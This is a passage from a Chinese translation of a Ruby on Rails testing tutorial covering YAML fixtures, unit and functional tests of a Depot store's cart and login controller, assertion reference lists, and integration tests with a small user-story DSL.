      product = Product.new(:title => 'xxx', :description => 'yyy', :price => 1,
                            :image_url => name)
      assert !product.valid?, "saving #{name}"
    end
end
```

在这里我们稍微混合了一下。我们没有写出九个单独的测试，而是使用了两个循环，一个用于检查我们预期通过验证的情况，第二个用于尝试我们预期失败的情况。

最后，我们的模型包含一个验证，检查数据库中所有产品标题是否唯一。要测试这个，我们需要将产品数据存储在数据库中。

一种方法是让测试创建一个产品，保存它，然后创建另一个具有相同标题的产品并尝试也保存它。这显然行得通。但有一种更惯用的方式——我们可以使用 Rails `fixtures`（夹具/固件）。

### 测试夹具

在测试领域，`fixture` 是指一个可以运行测试的环境。例如，如果你正在测试一块电路板，你可能会把它安装在一个测试夹具中，该夹具提供测试所需的电源和输入，以驱动待测功能。

在 Rails 的世界里，测试固定装置（test fixture）简单来说就是被测模型（或多个模型）初始内容的规范。例如，如果我们希望确保产品的数据库表在每次单元测试开始时都包含已知数据，就可以在固定装置中指定这些内容，Rails 会负责完成其余工作。

你在 `test/fixtures` 目录下的文件中指定固定装置数据。这些文件包含以逗号分隔值（CSV）格式或 YAML 格式存储的测试数据。我们的测试将使用 YAML 这种首选格式。每个 YAML 固定装置文件包含单个模型的数据。固定装置文件的名称很重要；文件的基本名称必须与数据库表的名称匹配。由于我们需要为存储在 `products` 表中的 `Product` 模型添加一些数据，因此将其添加到名为 `products.yml` 的文件中。Rails 在首次创建模型时已自动创建了此固定装置文件。

```ruby
### Read about fixtures at ...
first:
  id: 1
another:
  id: 2
```

固定装置文件包含我们希望插入数据库的每一行的条目。每一行都有一个名称。在 Rails 生成的固定装置中，这些行被命名为 `first` 和 `another`。这个名称对数据库而言没有意义——它不会被插入到行数据中。相反，正如我们稍后将看到的，这个名称为我们提供了一种在测试代码中引用测试数据的便捷方式。

在每个条目内部，你会看到一个缩进的属性名/值对列表。在 Rails 生成的固定装置中，只设置了 `id` 属性。虽然在打印稿中不明显，但你必须在每行数据的开头使用空格而非制表符，并且同一行的所有内容必须具有相同的缩进级别。

让我们将固定装置文件中的虚拟数据替换为可用于测试产品模型的数据。我们从一本书开始。

```yaml
### Download depot_r/test/fixtures/products.yml
ruby_book:
  id:           1
  title:        Programming Ruby
  description:  Dummy description
  price:        1234
  image_url:    ruby.png
```

现在我们有了一个固定装置文件，我们希望 Rails 在运行单元测试时将测试数据加载到 `products` 表中。事实上，Rails 已经在这样做了，这要归功于 `ProductTest` 中的以下代码行。

```ruby
### Download depot_r/test/unit/product_test.rb
fixtures :products
```

`fixtures()` 指令会安排在测试用例中每个测试方法运行之前，将对应给定模型名称的固定装置数据加载到相应的数据库表中。按照约定，使用模型的符号名称，这意味着使用 `:products` 将导致使用 `products.yml` 固定装置文件。

换句话说：对于我们的 `ProductTest` 类，添加 `fixtures` 指令意味着在每个测试方法运行之前，`products` 表将被清空，然后填充 Ruby 书籍的单行数据。每个测试方法都会在测试数据库中获得一个新初始化的表。

> **David 的建议……**
>
> **选择好的固定装置名称**
>
> 就像变量名称通常需要具名一样，你希望固定装置的名称尽可能具有自解释性。这会提高测试的可读性，例如当你断言 `product(:valid_order_for_fred)` 确实是 Fred 的有效订单时。它还能让你更容易地记住应该针对哪个固定装置进行测试，而无需查找 `p1` 或 `order4`。固定装置越多，选择好的名称就越重要。因此，早早开始能让你日后更轻松。
>
> 但如何处理那些难以获得像 `valid_order_for_fred` 这样自解释性名称的固定装置呢？选择你更容易关联到某个角色的自然名称。例如，不要使用 `order1`，而使用 `christmas_order`。不要使用 `customer1`，而使用 `fred`。一旦你养成了使用自然名称的习惯，你很快就能编织一个关于 `fred` 如何先用他的 `invalid_credit_card` 为他的 `christmas_order` 付款，然后用他的 `valid_credit_card` 付款，最后选择将所有东西寄给 `aunt_mary` 的精彩小故事。
>
> 基于关联的故事是轻松记住大量固定装置世界的关键。

### 使用固定装置数据

现在我们知道如何将固定装置数据加载到数据库中，我们需要找到在测试中使用它的方法。

显然，一种方法是使用模型中的查找器方法来读取数据。然而，Rails 让这变得更容易。对于加载到测试中的每个固定装置，Rails 都会定义一个与固定装置同名的方法。你可以使用此方法访问包含固定装置数据的预加载模型对象：只需将 YAML 固定装置文件中定义的行名称传递给它，它就会返回包含该行数据的模型对象。以我们的产品数据为例，调用 `products(:ruby_book)` 会返回一个包含我们在固定装置中定义的数据的 `Product` 模型。让我们用它来测试产品标题的唯一性验证。

```ruby
def test_unique_title
  product = Product.new(:title     => products(:ruby_book).title,
                        :description => 'yyy',
                        :price     => 1,
                        :image_url => 'fred.gif')

  assert !product.save
  assert_equal "has already been taken", product.errors.on(:title)
end
```

该测试假设数据库中已包含 Ruby 书籍的行。它使用 `products(:ruby_book).title` 获取现有行的标题。然后创建一个新的 `Product` 模型，将其标题设置为该现有标题。它断言尝试保存此模型会失败，并且 `title` 属性具有正确的关联错误信息。

如果你想避免对 Active Record 错误使用硬编码字符串，可以将其响应与内置的错误消息表进行比较。

```ruby
def test_unique_title1
  product = Product.new(:title     => products(:ruby_book).title,
                        :description => 'yyy',
                        :price     => 1,
                        :image_url => 'fred.gif')

  assert !product.save
  assert_equal ActiveRecord::Errors.default_error_messages[:taken],
               product.errors.on(:title)
end
```

### 测试购物车

我们的 `Cart` 类包含一些业务逻辑。当我们将产品添加到购物车时，它会检查该产品是否已在购物车的商品列表中。如果是，它会增加该商品的数量；如果不是，它会为该产品添加一个新条目。让我们为此功能编写一些测试。

Rails `generate` 命令创建了用于保存应用程序中数据库支持模型的单元测试的文件。但购物车呢？我们手动创建了 `Cart` 类，并且在单元测试目录中没有与之对应的文件。别担心！我们只需要创建一个。我们只需将 `product_test.rb` 文件中的样板代码复制到新的 `cart_test.rb` 文件中（记得将类重命名为 `CartTest`）。

```ruby
require File.dirname(__FILE__) + '/../test_helper'

class CartTest < Test::Unit::TestCase

  fixtures :products

end
```

请注意，我们在此测试中包含了现有的 `products` 固定装置。这是常见做法：我们通常希望在多个测试用例之间共享测试数据。在这种情况下，购物车测试将需要访问产品数据，因为我们将向购物车添加产品。

因为我们需要测试向购物车添加不同的产品，所以我们需要在 `products.yml` 固定装置中至少再添加一个产品。完整的文件现在如下所示。

```yaml
ruby_book:
  id:          1
  title:       Programming Ruby
  description: Dummy description
  price:       1234
  image_url:   ruby.png

rails_book:
  id:          2
  title:       Agile Web Development with Rails
  description: Dummy description
  price:       2345
  image_url:   rails.png
```

让我们首先看看当我们将一本 Ruby 书和一本 Rails 书添加到购物车时会发生什么。我们预期最终购物车会包含两件商品。购物车中商品的总价应该是 Ruby 书的价格加上 Rails 书的价格。

```ruby
def test_add_unique_products
    cart = Cart.new
    rails = products(:rails_book)
    ruby  = products(:ruby_book)
    cart.add_product rails
    cart.add_product ruby
    assert_equal 2, cart.items.size
    assert_equal rails.price + ruby.price, cart.total_price
end
```

让我们运行测试。

```text
depot> ruby test/unit/cart_test.rb
Loaded suite test/unit/cart_test
Started
.
Finished in 0.12138 seconds.

1 tests, 2 assertions, 0 failures, 0 errors
```

到目前为止，一切顺利。让我们编写第二个测试，这次将两本 Rails 书添加到购物车。现在我们应该只在购物车中看到一件商品，但数量为两件。

```ruby
def test_add_duplicate_product
    cart = Cart.new
    rails = products(:rails_book)
    cart.add_product rails
    cart.add_product rails
    assert_equal 2*rails.price, cart.total_price
    assert_equal 1, cart.items.size
    assert_equal 2, cart.items[0].quantity
end
```

我们开始看到一点重复代码潜入这些测试中。两者都创建了新的购物车，并且都设置了作为固定装置数据快捷方式的局部变量。幸运的是，Ruby 单元测试框架为我们提供了一种方便的方法，为每个测试方法设置公共环境。如果你在测试用例中添加一个名为 `setup()` 的方法，它将在每个测试方法运行之前执行——setup 方法为每个测试设置环境。因此，我们可以用它来设置一些实例变量供测试使用。

### 单元测试支持

在编写单元测试时，你可能会用到以下列表中的大部分断言。

- `assert(boolean, message)`

  如果布尔值为 `false` 或 `nil`，则测试失败。

- `assert_block(message) { block... }`

  如果代码块返回 `false` 或 `nil`，则测试失败。

- `assert_equal(expected, actual, message)`

- `assert_not_equal(expected, actual, message)`

  除非预期值和实际值相等（或不等），否则测试失败。

- `assert_nil(object, message)`

- `assert_not_nil(object, message)`

  除非对象为 `nil`（或不为 `nil`），否则测试失败。

- `assert_in_delta(expected_float, actual_float, delta, message)`

  除非两个浮点数在 `delta` 范围内，否则测试失败。比 `assert_equal()` 更优，因为浮点数是不精确的。

- `assert_raise(Exception, ..., message) { block... }`

- `assert_not_raise(Exception, ..., message) { block... }`

  除非代码块抛出（或不抛出）列出的异常之一，否则测试失败。

- `assert_match(pattern, string, message)`

- `assert_not_match(pattern, string, message)`

  除非字符串被 `pattern` 中的正则表达式匹配（或不匹配），否则测试失败。

- `assert_valid(activerecord_object)`

  除非提供的 ActiveRecord 对象有效（即通过验证），否则测试失败。如果验证失败，错误将作为断言失败消息的一部分报告。

- `flunk(message)`

  无条件地使测试失败。

Ruby 的单元测试框架提供了更多断言，但在测试 Rails 应用程序时，这些断言并不常用，因此我们不在这里讨论它们。你可以在 `Test::Unit` 的文档中找到它们。¹

## 13.3 控制器的功能测试

控制器是演出的导演。它们接收传入的 Web 请求（通常是用户输入），与模型交互以获取应用程序状态，然后通过使相应的视图显示内容来响应用户。因此，当我们测试控制器时，我们是在确保给定的请求得到了适当的响应。我们仍然需要模型，但我们已经通过单元测试覆盖了它们。

Rails 将测试单个控制器的内容称为*功能测试*。Depot 应用程序有四个控制器，每个控制器都有多个操作。


这里有很多内容可以测试，但我们将挑选一些重点进行讲解。让我们从用户开始的地方——登录开始。

## 登录

如果任何人都可以来管理 Depot，那就太糟糕了。虽然我们可能没有复杂的安全系统，但我们要确保登录控制器至少能将闲杂人等拒之门外。

由于 `LoginController` 是使用 `generate controller` 脚本创建的，Rails 已经在 `test/functional` 目录中为我们准备了一个测试桩。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'login_controller'

### Re-raise errors caught by the controller.
class LoginController; def rescue_action(e) raise e end; end

class LoginControllerTest < Test::Unit::TestCase
  def setup
    @controller = LoginController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  # Replace this with your real tests.
  def test_truth
    assert true
  end
end
```

功能测试的关键是 `setup()` 方法。它初始化了每个功能测试所需的三样东西：

- `@controller` 包含被测试控制器的实例。
- `@request` 包含一个请求对象。在一个运行中的、实际的应用程序中，请求对象包含来自传入请求的所有详细信息和数据。它包含 HTTP 头信息、POST 或 GET 数据等。在测试环境中，我们使用一个特殊的测试版本的请求对象，它可以在不需要真正的传入 HTTP 请求的情况下进行初始化。
- `@response` 包含一个响应对象。虽然我们在编写应用程序时没有直接看到响应对象，但我们一直在使用它们。每次我们向浏览器发送请求时，Rails 都会在幕后填充一个响应对象。模板将它们的数据渲染到响应对象中，我们想要返回的状态代码被记录在响应对象中，等等。在我们的应用程序处理完一个请求后，Rails 会获取响应对象中的信息，并使用它向客户端发送响应。

请求和响应对象对于功能测试的运行至关重要——使用它们意味着我们不需要启动 Web 服务器来运行控制器测试。也就是说，功能测试不一定需要 Web 服务器、网络或客户端。

## 索引：仅限管理员

太好了，现在让我们编写第一个控制器测试——一个简单“访问”索引页面的测试。

```ruby
def test_index
  get :index
  assert_response :success
end
```

`get()` 方法是测试辅助程序加载的一个便捷方法，它模拟一个 Web 请求（相当于 HTTP GET）到 `LoginController` 的 `index` 操作，并捕获响应。然后，`assert_response()` 方法检查响应是否成功。

好的，让我们看看运行测试时会发生什么。我们将使用 `-n` 选项来指定我们想要运行的特定测试方法的名称。

```text
depot> ruby test/functional/login_controller_test.rb -n test_index
Loaded suite test/functional/login_controller_test
Started
F
Finished in 0.239281 seconds.
```

> 1) Failure:
>
> `test_index(LoginControllerTest) [test/functional/login_controller_test.rb:23]`:
>
> Expected response to be a `<:success>`, but was `<302>`

这看起来很简单，那么发生了什么？响应代码 302 表示请求被重定向，因此不被视为成功。但为什么会被重定向？嗯，因为这就是我们设计 `LoginController` 的方式。它使用了一个前置过滤器来拦截对那些用户（没有管理员登录）不可用的操作的调用。

```ruby
before_filter :authorize, :except => :login
```

前置过滤器确保在运行 `index` 操作之前运行 `authorize()` 方法。

```ruby
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end
end
```

由于我们尚未登录，会话中没有有效的用户，因此请求被重定向到 `login()` 操作。根据 `authorize()`，结果页面应该包含一个 *flash* 通知，告诉我们需要登录。好的，那么让我们重写功能测试来捕获这个流程。

```ruby
def test_index_without_user
  get :index
  assert_redirected_to :action => "login"
  assert_equal "Please log in", flash[:notice]
end
```

这次当我们请求 `index()` 操作时，我们期望被重定向到 `login()` 操作，并看到一个由视图生成的 flash 通知。

```text
depot> ruby test/functional/login_controller_test.rb
Loaded suite test/functional/login_controller_test
Started
.
Finished in 0.0604571 seconds.
1 tests, 3 assertions, 0 failures, 0 errors
```

确实，我们得到了预期的结果。² 现在我们知道，在用户登录之前（*前置过滤器*正在工作），仅限管理员的操作是禁止访问的。让我们试试在有有效用户的情况下查看索引页面。

回想一下，该应用程序将当前登录用户的 id 存储在 `session` 中，索引键为 `:user_id`。因此，为了模拟一个已登录的用户，我们需要在发出请求之前设置好会话。让我们看看管理员情况下的索引测试：

```ruby
def test_index
  get :index
  assert_response :success
  assert assigns(:products)
end
```

我们需要先登录。我们可以通过向登录操作发送带有正确参数的 POST 请求来做到这一点。让我们更新我们的测试：

```ruby
def test_index
  post :login, :name => "dhh", :password => "secret"
  assert_redirected_to :action => "index"
  get :index
  assert_response :success
  assert assigns(:products)
end
```

现在当我们运行测试时，它通过了。我们成功地测试了管理员可以查看索引页面。

---

¹ 例如，在 http://ruby-doc.org/stdlib/libdoc/test/unit/rdoc/classes/Test/Unit/Assertions.html。

² 有一个小例外。我们的测试方法包含两个断言，但控制台日志显示有三个断言通过了。这是因为 `assert_redirected_to()` 方法内部使用了两个低级断言。

只需在发出 `index` 请求之前，将会话中设置一个用户ID。我们目前唯一的问题是确定用什么作为用户ID。

我们不能随便填个随机数，因为应用程序控制器的 `authorize()` 方法会根据这个值从数据库中获取用户行。看来我们需要用一些有效的数据来填充用户表。而这正好给了我们一个查看动态固件的机会。

## 动态固件

我们将创建一个 `users.yml` 测试固件，向用户表中添加一行数据。我们将用户命名为 `"dave"`。

```yaml
dave:
  id:   1
  name: dave
  salt: NaCl
  hashed_password: ???
```

一切顺利，直到 `hashed_password` 这一行。我们应该用什么作为值呢？在真实表中，它是通过用户类中的 `encrypted_password()` 方法计算出来的。该方法接受一个明文密码和一个盐值，并创建一个 SHA1 哈希值。

现在，一种方法是启动 `script/console` 并手动调用该方法。然后我们可以复制该方法返回的值，粘贴到固件文件中。这可以行得通，但这有点不直观，而且如果我们更改了密码生成机制，我们的测试可能会中断。如果我们能在数据加载到数据库时使用应用程序的代码来生成哈希密码，那不是很好吗？看看下面这个例子。

```erb
<% SALT = "NaCl" %>

dave:
  id:   1
  name: dave
  salt: <%= SALT %>
  hashed_password: <%= User.encrypted_password('secret', SALT) %>
```

`hashed_password` 这一行的语法看起来应该很熟悉：`<%=...%>` 指令与我们用于在模板中替换值的指令相同。事实证明，Rails 在测试固件中支持这些替换。这就是为什么我们称它们为动态的。

现在我们准备好再次测试 `index` 动作了。我们必须记住在登录控制器测试类中添加 `fixtures` 指令。

```ruby
fixtures :users
```

然后我们编写测试方法。

```ruby
def test_index_with_user
  get :index, {}, { :user_id => users(:dave).id }
  assert_response :success
  assert_template "index"
end
```

这里的关键是调用 `get` 方法。注意我们在动作名称之后添加了几个新参数。第二个参数是一个空哈希——这表示要传递给动作的 HTTP 参数。第三个参数是一个用于填充会话数据的哈希。这就是我们使用用户固件的地方，将会话条目 `:user_id` 设置为我们测试用户的 id。然后我们的测试断言我们得到了一个成功的响应（不是重定向），并且动作渲染了 index 模板。（我们很快会更深入地研究所有这些断言。）

## 登录

现在我们已经在测试数据库中有了一个用户，让我们看看能否以该用户身份登录。如果使用浏览器，我们会导航到登录表单，输入用户名和密码，然后将字段提交到登录控制器的登录动作。我们期望被重定向到 index 列表，并且会话中整齐地包含我们测试用户的 id。以下是在功能测试中实现相同功能的方法。

```ruby
def test_login
  dave = users(:dave)
  post :login, :name => dave.name, :password => 'secret'
  assert_redirected_to :action => "index"
  assert_equal dave.id, session[:user_id]
end
```

这里我们使用 `post` 方法来模拟输入表单数据，并将用户名和密码表单字段的值作为参数传递。

如果我们尝试使用无效密码登录会发生什么？

```ruby
def test_bad_password
  dave = users(:dave)
  post :login, :name => dave.name, :password => 'wrong'
  assert_template "login"
  assert_equal "Invalid user/password combination", flash[:notice]
end
```

正如预期的那样，我们的测试用户没有被重定向到 index 列表，而是看到了登录表单和一条鼓励他们重试的 flash 消息。

## 功能测试的便利性

以上是对如何为控制器编写功能测试的简要介绍。在此过程中，我们使用了许多 Rails 内置的支持方法和断言，这些使得测试生活更加轻松。在我们深入之前，让我们看看 Rails 特有的控制器测试便利性。

### HTTP 请求方法

方法 `get()`、`post()`、`put()`、`delete()` 和 `head()` 模拟同名的传入 HTTP 请求方法。它们调用指定的动作，并使响应可供测试代码使用。

这些方法都接受相同的四个参数。让我们以 `get()` 为例。

```ruby
get(action, parameters = nil, session = nil, flash = nil)
```

对给定的动作执行 HTTP GET 请求并设置响应。参数如下。

- `action`：被请求的控制器的动作。
- `parameters`：一个可选的请求参数哈希。
- `session`：一个可选的会话变量哈希。
- `flash`：一个可选的 flash 消息哈希。

示例：

```ruby
get :index
get :add_to_cart, :id => products(:ruby_book).id
get :add_to_cart, :id => products(:ruby_book).id,
                 :session_key => 'session_value', :message => "Success!"
```

此外，你可以使用以下方法模拟 `xml_http_request`：

```ruby
xhr(method, action, parameters, session, flash)
xml_http_request(method, action, parameters, session, flash)
```

模拟来自 JavaScript 客户端到服务器的 `xml_http_request`。第一个参数将是 `:post` 或 `:get`。其余参数与前面描述的传递给 `get()` 方法的参数相同。

### 断言

除了我们在第??页列出的标准断言外，执行请求后还可以使用额外的功能测试断言。

```ruby
assert_dom_equal(expected_html, actual_html, message)
assert_dom_not_equal(expected_html, actual_html, message)
```

比较两个包含 HTML 的字符串。如果两个字符串由相同/不同的文档对象模型表示，则比较成功。该断言基本上比较两个字符串的规范化版本。

```ruby
assert_response(type, message=nil)
```

断言响应是数字 HTTP 状态码或以下符号之一。这些符号可以覆盖一系列响应代码（因此 `:redirect` 表示状态码 300–399）。

- `:success`
- `:redirect`
- `:missing`
- `:error`

示例：

```ruby
assert_response :success
assert_response 200
```

```ruby
assert_redirected_to(options, message)
```

断言传入的重定向选项与上次动作中调用的重定向匹配。你也可以传递一个简单的字符串，该字符串将与重定向生成的 URL 进行比较。

示例：

```ruby
assert_redirected_to :controller => 'login'
assert_redirected_to :controller => 'login', :action => 'index'
assert_redirected_to "http://my.host/index.html"
```

```ruby
assert_template(expected, message)
```

断言请求是用指定的模板文件渲染的。

```ruby
assert_template 'store/index'
```

```ruby
assert_tag(conditions)
```

断言响应正文中存在一个满足所有给定条件的标签（节点）。³ （我亲切地称这个断言为 *链锯*，因为它毫不留情地剖析响应的方式。）`conditions` 参数必须是一个哈希，包含以下任意可选键。

- `:tag`：用于匹配节点类型的值。

  ```ruby
  assert_tag :tag => 'html'
  ```

- `:content`：用于匹配文本节点内容的值。内容可以是：
  - 字符串、正则表达式或数字。标签内容必须包含提供的值。
  - `true`，此时内容必须存在。
  - `nil` 或 `false`，此时内容必须不存在。
- `:attributes`：用于匹配节点属性的条件哈希。
- `:parent`：用于匹配节点父节点的条件哈希。
- `:child`：用于匹配节点至少一个直接子节点的条件哈希。

```ruby
assert_tag :content => "Online Store"
assert_tag :content => /Online Store/
assert_tag :tag => "div",
           :attributes => { :class => "fieldwithErrors" }
assert_tag :tag => "strong", :content => "Danger!",
           :parent => { :tag => "p",
                        :attributes => { :id => 'errors' }}
```

> ³ 在幕后，`assert_tag()` 将响应解析为文档对象模型。

## 变量


请求执行后，功能测试可以对以下变量进行断言。

`assigns(key=nil)`

在上一个操作中被赋值的实例变量。

`assert_not_nil assigns["items"]`

`assigns` 哈希必须使用字符串作为索引引用。例如，`assigns[:items]` 将不起作用，因为键是一个符号。若要使用符号作为键，请使用方法调用代替索引引用。

`assert_not_nil assigns(:items)`

`session`

会话中的对象哈希。

`assert_equal 2, session[:cart].items.size`

`flash`

当前会话中的 flash 对象哈希。

`assert_equal "Danger!", flash[:notice]`

`cookies`

发送给用户的 cookie 哈希。

`assert_equal "Fred", cookies[:name]`

`redirect_to_url`

上一个操作重定向到的完整 URL。

`assert_equal "http://test.host/login", redirect_to_url`

### 功能测试辅助方法

Rails 在功能测试中提供了以下辅助方法。

`find_tag(conditions)`

在响应中查找标签，使用与 `assert_tag` 相同的条件。

```ruby
get :index
tag = find_tag :tag => "form",
            :attributes => {
                :action => "/store/add_to_cart/993"
            }
assert_equal "post", tag.attributes["method"]
```

这可能最好直接使用 `assert_tag` 来编写。

```ruby
assert_tag "form",
           :attributes => {
               :action => "/store/add_to_cart/993",
               :method => "post"
           }
```

`find_all_tag(conditions)`

返回一个满足给定条件的标签数组。

`follow_redirect()`

如果上一个操作产生了重定向，则通过发出一个 get 请求来跟随它。功能测试只能重定向到它们自己的控制器。

`fixture_file_upload(path, mime_type)`

创建由浏览器 `<file>` 字段通常上传的 MIME 编码内容。使用此方法在 post 请求中设置相应的表单参数。

```ruby
post :report_bug,
     :screenshot => fixture_file_upload("screen.png", "image/png")
```

## 13.4 应用程序的集成测试

下一级别的测试是测试我们应用程序的流程。在很多方面，这就像测试我们客户在我们开始编码应用程序时提供给我们的一个故事。例如，我们可能被告知：一个用户访问商店索引页面。他们选择一个产品，将其添加到购物车中。然后他们结账，在结账表单上填写他们的详细信息。当他们提交时，数据库中会创建一个订单，其中包含他们的信息，以及一个对应于他们添加到购物车中的产品的行项目。

这是集成测试的理想材料。集成测试模拟一个或多个虚拟用户与我们应用程序之间的持续会话。你可以用它们来发送请求、监控响应、跟随重定向等等。

当你创建一个模型或控制器时，Rails 会创建相应的单元和功能测试。但是，集成测试不会自动创建，因此你需要使用生成器来创建一个。

```sh
depot> ruby script/generate integration_test user_stories
exists  test/integration/
create  test/integration/user_stories_test.rb
```

注意 Rails 自动在测试名称后添加了 `_test`。让我们看看生成的文件。

```ruby
require "#{File.dirname(__FILE__)}/../test_helper"

class UserStoriesTest < ActionController::IntegrationTest
  # fixtures :your, :models

  # 将此替换为你的实际测试。
  def test_truth
    assert true
  end
end
```

这看起来有点像功能测试，但我们的测试类继承自 `IntegrationTest`。让我们直接开始并实现对我们故事的测试。因为我们将购买一些东西，所以我们需要我们的 products fixture，所以我们将其加载在类的顶部。

```ruby
fixtures :products
```

就像单元和功能测试一样，我们的测试将被写在一个名称以 `test_` 开头的方法中。

```ruby
def test_buying_a_product
  # ...
end
```

在测试结束时，我们知道我们想要向 `orders` 表添加一个订单，并向 `line_items` 表添加一个行项目，所以让我们在开始之前清空它们。并且，因为我们将大量使用 Ruby book fixture 数据，让我们将其加载到一个 load 变量中。

```ruby
LineItem.delete_all
Order.delete_all
ruby_book = products(:ruby_book)
```

让我们开始处理用户故事中的第一句话：一个用户访问商店索引页面。

```ruby
get "/store/index"
assert_response :success
assert_template "index"
```

这看起来几乎就像一个功能测试。主要区别在于 `get` 方法：在功能测试中我们只检查一个控制器，因此在调用 `get()` 时我们只指定一个操作。然而，在集成测试中，我们可以遍历整个应用程序，因此我们需要传递一个完整的（相对）URL 来调用控制器和操作。

故事中的下一句话是他们选择一个产品，将其添加到购物车中。我们知道我们的应用程序使用 Ajax 请求将东西添加到购物车，因此我们将使用 `xml_http_request` 方法来调用该操作。当它返回时，我们将检查购物车现在是否包含所需的产品。

```ruby
xml_http_request "/store/add_to_cart", :id => ruby_book.id
assert_response :success
```

```ruby
cart = session[:cart]
assert_equal 1, cart.items.size
assert_equal ruby_book, cart.items[0].product
```

在一个令人兴奋的剧情转折中，用户故事继续然后他们结账……这在我们的测试中很简单：

```ruby
post "/store/checkout"
assert_response :success
assert_template "checkout"
```

此时，用户必须在结账表单上填写他们的详细信息。一旦他们完成并提交了数据，我们的应用程序就会创建订单并重定向到索引页面。让我们从 HTTP 方面开始，将表单数据发布到 `save_order` 操作，并验证我们已被重定向到索引页。我们还将检查购物车现在是否为空。

```ruby
post "/store/save_order",
     :order => { :name => "Dave Thomas",
                 :address => "123 Main Street",
                 :email => "dave@pragprog.com",
                 :pay_type => "check" }
assert_response :redirect
follow_redirect
assert_response :success
assert_template "index"
cart = session[:cart]
assert_equal 0, cart.items.size
```

最后，我们需要验证数据库的内容。我们检查是否创建了一个订单，以及它是否包含我们在表单上输入的详细信息。我们还检查行项目是否引用了我们放入购物车中的产品。

```ruby
order = Order.find(:first)
assert_equal "Dave Thomas", order.name
assert_equal "123 Main Street", order.address
assert_equal "dave@pragprog.com", order.email
assert_equal "check", order.pay_type

assert_equal 1, order.line_items.size
line_item = order.line_items[0]
assert_equal ruby_book, line_item.product
```

测试辅助方法 `post_via_redirect` 会生成 POST 请求，然后跟随任何返回的重定向，直到收到常规的 200 响应。

```ruby
post_via_redirect "/store/save_order",
                 :order => {
                    :name     => "Dave Thomas",
                    :address  => "123 The Street",
                    :email    => "dave@pragprog.com",
                    :pay_type => "check"
                 }
assert_response :success
assert_template "index"
assert_equal 0, session[:cart].items.size
```

最后，我们会深入数据库，确保我们创建了一个订单和相应的订单项，并且它们包含的细节是正确的。因为我们在测试开始时清空了订单表，所以只需验证它现在只包含我们的新订单即可。

```ruby
orders = Order.find(:all)
assert_equal 1, orders.size
order = orders[0]

assert_equal "Dave Thomas",        order.name
assert_equal "123 The Street",      order.address
assert_equal "dave@pragprog.com",  order.email
assert_equal "check",              order.pay_type

assert_equal 1, order.line_items.size
line_item = order.line_items[0]
assert_equal ruby_book, line_item.product
```

就是这样。让我们看看集成测试的完整源代码。

```ruby
require "#{File.dirname(__FILE__)}/../test_helper"

class UserStoriesTest < ActionController::IntegrationTest
  fixtures :products

  # 一个用户访问商店索引页。他们选择了一个产品，
  # 将其添加到购物车中。然后他们结账，在结账表单上
  # 填写他们的详细信息。当他们提交时，
  # 数据库中会创建一个订单，其中包含
  # 他们的信息，以及一个对应于他们添加到购物车中的产品的订单项。

  def test_buying_a_product
    LineItem.delete_all
    Order.delete_all
    ruby_book = products(:ruby_book)

    get "/store/index"
    assert_response :success
    assert_template "index"

    xml_http_request "/store/add_to_cart", :id => ruby_book.id
    assert_response :success

    cart = session[:cart]
    assert_equal 1, cart.items.size
    assert_equal ruby_book, cart.items[0].product

    post "/store/checkout"
    assert_response :success
    assert_template "checkout"

    post_via_redirect "/store/save_order",
                  :order => {
                      :name     => "Dave Thomas",
                      :address  => "123 The Street",
                      :email    => "dave@pragprog.com",
                      :pay_type => "check"
                  }
    assert_response :success
    assert_template "index"
    assert_equal 0, session[:cart].items.size

    orders = Order.find(:all)
    assert_equal 1, orders.size
    order = orders[0]

    assert_equal "Dave Thomas",         order.name
    assert_equal "123 The Street",      order.address
    assert_equal "dave@pragprog.com",  order.email
    assert_equal "check",               order.pay_type

    assert_equal 1, order.line_items.size
    line_item = order.line_items[0]
    assert_equal ruby_book, line_item.product
  end
end
```

### 更高级别的测试

> （本节包含可安全跳过的高级内容。）

集成测试设施非常好：我们不知道有其他框架能提供如此高级别的内置测试。但我们甚至可以更进一步。想象一下，能够为你的质量保证人员提供一种用于应用测试的小型语言。他们可以用这样的语言编写我们之前的测试：

```ruby
### 下载 depot_r/test/integration/dsl_user_stories_test.rb
def test_buying_a_product
  dave = regular_user
  dave.get "/store/index"
  dave.is_viewing "index"
  dave.buys_a @ruby_book
  dave.has_a_cart_containing @ruby_book
  dave.checks_out DAVES_DETAILS
  dave.is_viewing "index"
  check_for_order DAVES_DETAILS, @ruby_book
end
```

它可能不是伟大的文学作品，但仍然相当易读。那么，我们如何为他们提供这种功能呢？使用 Ruby 的一个巧妙特性——单例方法——来实现会相当容易。

如果 `obj` 是一个包含任何 Ruby 对象的变量，我们可以使用以下语法定义一个仅适用于该对象的方法：

```ruby
def obj.method_name
  # ...
end
```

一旦我们这样做了，我们就可以像调用任何其他方法一样在 `obj` 上调用 `method_name()`。

```ruby
obj.method_name
```

这就是我们实现测试语言的方式。我们将使用 `open_session()` 方法创建一个新的测试会话，并在这个会话上定义所有的辅助方法。在我们的示例中，这是在 `regular_user()` 方法中完成的。


```ruby
### 下载 depot_r/test/integration/dsl_user_stories_test.rb
def regular_user
  open_session do |user|
    def user.is_viewing(page)
      assert_response :success
      assert_template page
    end

    def user.buys_a(product)
      xml_http_request "/store/add_to_cart", :id => product.id
      assert_response :success
    end

    def user.has_a_cart_containing(*products)
      cart = session[:cart]
      assert_equal products.size, cart.items.size
      for item in cart.items
        assert products.include?(item.product)
      end
    end

    def user.checks_out(details)
      post "/store/checkout"
      assert_response :success
      assert_template "checkout"

      post_via_redirect "/store/save_order",
                      :order => {
                        :name      => details[:name],
                        :address   => details[:address],
                        :email     => details[:email],
                        :pay_type  => details[:pay_type]
                      }
      assert_response :success
      assert_template "index"
      assert_equal 0, session[:cart].items.size
    end
  end
end
```

`regular_user()` 方法返回这个增强的会话对象，我们脚本的其余部分就可以使用它来运行测试。

一旦我们定义了这个小型语言，编写更多测试就变得容易了。例如，下面是一个测试，它验证两个用户同时购买产品时没有交互。（我们缩进了与 Mike 会话相关的行，以便更容易看清流程。）

```ruby
### 下载 depot_r/test/integration/dsl_user_stories_test.rb
def test_two_people_buying
  dave = regular_user
      mike = regular_user
  dave.buys_a @ruby_book
      mike.buys_a @rails_book
  dave.has_a_cart_containing @ruby_book
  dave.checks_out DAVES_DETAILS
      mike.has_a_cart_containing @rails_book
  check_for_order DAVES_DETAILS, @ruby_book
